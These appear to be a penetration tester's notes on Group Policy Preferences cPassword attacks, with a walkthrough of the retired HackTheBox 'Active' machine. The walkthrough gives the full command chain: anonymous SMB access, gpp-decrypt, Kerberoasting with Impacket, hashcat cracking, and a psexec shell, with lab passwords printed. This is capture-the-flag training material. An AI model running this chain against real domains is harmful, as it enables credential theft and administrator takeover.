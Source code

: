 # GPP / cPassword Attacks Overview - MS14-025

- GPP will keep passwords in an XML file
- Works with smb
- If we find a 334 open we can try to login anonymously
  *Example from HTB - Active - Retired Machine*
- Tips: `prompt off` (will not prompt when dl file) and `recurse on` (will list everything)
    ```
    ┌──(kali㉿kali)-[~]
    └─$ smbclient \\\\10.10.10.100\\Replication
    Enter WORKGROUP\kali's password: 
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      active.htb                          D        0  Sat Jul 21 06:37:44 2018

                    5217023 blocks of size 4096. 260455 blocks available
    smb: \> prompt off
    smb: \> 
    ```
- We can get all the file using `mget *`
- We are interested in the group.xml file which has been downloaded in `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/`  
  ![](../.res/groupsxml.png)
- We can just copy cpassword and crackit using gpp-decrypt: ` gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
  And we get the password: `GPPstillStandingStrong2k18`

## HTB - Active - privesc

- The password obtain with gpp only gave us user. To root the machine we use kerberoasting again:
  ```
  ┌──(kali㉿kali)-[~]
  └─$ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40  2022-02-11 16:21:53 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$50b[STRIPPED]1
  ```

- We can then crack the password with hashcat

  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O
  [STRIPPED]
  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~4[STRIPPED]1:Ticketmaster1968
  ```
- And finally get shell using psexec.py (Impacket)
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100  
  ```

## GPP - Resources

- [Group Policy Pwnage](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
